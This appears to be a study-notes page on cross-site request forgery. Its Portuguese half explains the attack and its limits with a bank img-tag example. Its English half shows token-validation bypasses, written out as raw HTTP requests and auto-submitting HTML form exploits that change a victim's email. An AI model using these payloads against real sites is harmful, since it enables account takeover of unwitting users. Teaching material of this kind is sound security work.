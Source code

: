 <img src="https://periciacomputacional.com/wp-content/uploads/2018/10/csrf-banner-1280x640.png"/>  

# Como ocorre
O ataque funciona através da inclusão de um link ou script numa página que acede a um site no qual se sabe (ou se supõe) que o utilizador tenha sido autenticado.[5] Por exemplo, um usuário, Bob, pode estar a navegar num fórum de bate-papo onde outro usuário, Fred, postou uma mensagem. Suponha-se que Fred tenha criado um elemento da imagem HTML que faz referência a uma ação no site do banco de Bob (em vez de um arquivo de imagem), por exemplo,

<i> < img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=Fred" /> </i>

Se o banco de Bob mantém a sua informação de autenticação num cookie, e se o cookie não expirou, então a tentativa do browser de Bob de carregar a imagem irá submeter o formulário de levantamento com o seu cookie, assim, autorizando uma transação sem a aprovação de Bob. A falsificação de solicitação entre sites é um ataque do tipo Confused deputy contra um navegador Web. O deputy no exemplo do banco é o navegador Web de Bob que é confundido para fazer mau uso da autoridade de Bob na direção de Fred.

As seguintes características são comuns ao CSRF:

Envolvem sites que dependem de uma identificação do usuário
Exploram a confiança do site nessa identificação
Iludem o navegador do usuário para o envio de solicitações HTTP para um site de destino
Envolvem solicitações HTTP que têm efeitos colaterais
Os riscos são as aplicações Web que executam ações com base na confiança e autenticação das entradas dos usuários, sem exigir que o usuário autorize a ação específica. Um usuário que é autenticado por um cookie guardado no navegador web do usuário, sem saber, pode enviar um pedido HTTP a um site que confia no usuário e, assim, fazer uma ação indesejada.

Ataques CSRF em tags de imagem muitas vezes são feitas a partir de fóruns na Internet, onde os usuários têm permissão para postar imagens, mas não JavaScript.


https://www.treinaweb.com.br/blog/cross-site-request-forgery-csrf-e-abordagens-para-mitiga-lo/

<img src="https://www.infosec.com.br/wp-content/uploads/2017/07/cross-site-request-forgery.png" width="750"/>  

# Limitações
Várias coisas têm que acontecer para que um cross-site request forgery tenha sucesso:

<ul>
  <li> O atacante deve ter como alvo tanto um site que não verifica o campo Referer do cabeçalho HTTP (que é comum) ou uma vítima com um bug no navegador ou plug-in que permite alterar o campo Referer (o que é raro).</li>
  <li>O atacante deve encontrar uma submissão do formulário no local de destino, ou uma URL que tem efeitos colaterais, que faz algo (por exemplo, transferências de dinheiro, ou mudanças de endereço da vítima e-mail ou senha).</li>
  <li>O atacante deve determinar os valores corretos para todos os formulários ou entradas URL; se qualquer um deles são obrigados a serem os valores de autenticação secreta ou identificações que o atacante não pode adivinhar, o ataque irá falhar.</li>
  <li>O atacante deve atrair a vítima para uma página Web com código malicioso enquanto a vítima está conectada ao site de destino.</li>
</ul>
<br/>
Nota-se que o ataque é cego, ou seja, o invasor não pode ver o que o site-alvo envia de volta à vítima, em resposta aos pedidos forjados, a menos que ele explore um cross-site scripting ou outro bug no site do alvo. Da mesma forma, o atacante só pode ter como alvo algum link ou apresentar qualquer formulário que surge após o pedido inicial forjado, se essas relações subsequentes ou formulários são igualmente previsíveis. (Alvos múltiplos podem ser simulados, incluindo várias imagens em uma página, ou usando JavaScript para introduzir um atraso entre os cliques). Dadas essas limitações, um atacante pode ter dificuldade em encontrar registros das vítimas ou envios de formulários atacáveis. Por outro lado, as tentativas de ataque são fáceis de montar e invisíveis às vítimas, e projetistas de aplicações são menos familiarizados e preparados para ataques CSRF do que para, digamos, ataques de adivinhação de senha dicionari

# Validation of CSRF token depends on request method
Some applications correctly validate the token when the request uses the POST method but skip the validation when the GET method is used.

In this situation, the attacker can switch to the GET method to bypass the validation and deliver a CSRF attack:<br/>
```
  GET /email/change?email=pwned@evil-user.net HTTP/1.1<br/>
  Host: vulnerable-website.com<br/>
  Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm<br/>
```
 
 Exploit example:
 ``` html
  <form method="GET" action="https://vulnerablesite/email/change-email">
     <input type="hidden" name="csrf" value="1iOsHyPVwSb0j6eFXwmd4zen1qvYrhs2">
     <input type="email" name="email" value="atackers@email.com">
  </form>
  <script>
      document.forms[0].submit();
  </script>
```

# Validation of CSRF token depends on token being present
Some applications correctly validate the token when it is present but skip the validation if the token is omitted.

In this situation, the attacker can remove the entire parameter containing the token (not just its value) to bypass the validation and deliver a CSRF attack:<br/>
```
  POST /email/change HTTP/1.1<br/>
  Host: vulnerable-website.com<br/>
  Content-Type: application/x-www-form-urlencoded<br/>
  Content-Length: 25<br/>
  Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm<br/>

  email=pwned@evil-user.net<br/>
```
Exploit example:
 ```html
  <form method="POST" action="https://vulnerablesite/email/change-email">                    
    <input type="hidden" name="email" value="atacker@email">                    
  </form>
  <script>
    document.forms[0].submit();
  </script>
```

